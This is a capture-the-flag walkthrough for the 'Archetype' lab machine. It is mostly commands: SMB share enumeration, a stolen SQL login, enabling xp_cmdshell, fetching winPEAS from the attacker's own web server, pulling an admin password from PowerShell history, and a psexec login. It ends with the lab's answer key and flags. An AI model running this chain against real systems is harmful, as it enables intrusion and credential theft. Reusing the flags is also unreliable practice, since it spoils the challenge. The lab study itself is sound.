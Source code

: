 # Archetype - Very Easy

```shell
nmap -Pn -T4 -A 10.129.133.189

smbclient -L //10.129.133.189
#lists shares

smbclient //10.129.133.189/backups
#connect with share

ls

get prod.dtsConfig

quit

cat prod.dtsConfig
#view file from share
#this contains the password required

ls /opt/impacket/examples

less /opt/impacket/examples/mssqlclient.py

python3 /opt/impacket/examples/mssqlclient.py

python3 /opt/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.133.189 -windows-auth
#connects to SQL server

xp_cmdshell
#shows that it is off
#we have to configure it first

EXEC sp_configure 'show advanced options', 1

RECONFIGURE

EXEC sp_configure 'xp_cmdshell', 1

RECONFIGURE

EXEC xp_cmdshell 'dir';
#to test if it works
#we can run commands now

EXEC xp_cmdshell 'dir C:\Users\sql_svc';

EXEC xp_cmdshell 'dir C:\Users\sql_svc\Desktop';

EXEC xp_cmdshell 'type C:\Users\sql_svc\Desktop\user.txt';
#we get user flag
#we can try executing winpeas script now

#in attacker machine
#in directory containing winPEAS script
python3 -m http.server
#sets server

#to get winpeas script, we can use powershell
EXEC xp_cmdshell 'powershell -c pwd';
#check if powershell works

EXEC xp_cmdshell 'powershell -c cd C:\Users\sql_svc; wget http://10.10.15.128:8000/winPEASx64.exe -outfile winpeas.exe';
#we have winpeas script

EXEC xp_cmdshell 'powershell -c C:\Users\sql_svc\winpeas.exe';
#we have to go through the output now

EXEC xp_cmdshell 'powershell -c type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
#shows admin password

#we can now escalate and login as admin
python3 /opt/impacket/examples/psexec.py ARCHETYPE/administrator:"MEGACORP_4dm1n\!\!"@10.129.133.189
#we get access

cd C:\Users\Administrator

cd Desktop

type root.txt
```

```markdown
After the Nmap scan, we can use smbclient to check and access the shares for hints.

The file found in the backups share contains the username and password sql_svc:M3g4c0rp123

For the Impacket script, we can view the example scripts provided by Impacket.

Now, we can use mssqlclient.py to spawn Windows command shell using the password found earlier.

We can view the help part for the script and execute the command.

After we get access to SQL server and configure xp_cmdshell, we can run commands.

This includes finding the flags and running script for finding privilege escalation vectors.

The output of the winPEAS script contains hints.

One of the hints we have is that we have a file which contains the admin password.

The PowerShell history file has been highlighted in red, so that could be a clue.

The location of the file is given as 'C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt'

The PowerShell history file shows that the credentials are administrator:MEGACORP_4dm1n!!

We can use this to login as administrator using Impacket script psexec.py and find root flag.
```

1. Which TCP port is hosting a database server? - 1433

2. What is the name of the non-Administrative share available over SMB? - backups

3. What is the password identified in the file on the SMB share? - M3g4c0rp123

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? - mssqlclient.py

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? - xp_cmdshell

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts? - winPEAS

7. What file contains the administrator's password? - ConsoleHost_history.txt

8. Submit user flag? - 3e7b102e78218e935bf3f4951fec21a3

9. Submit root flag? - b91ccec3305e98240082d4474b848528
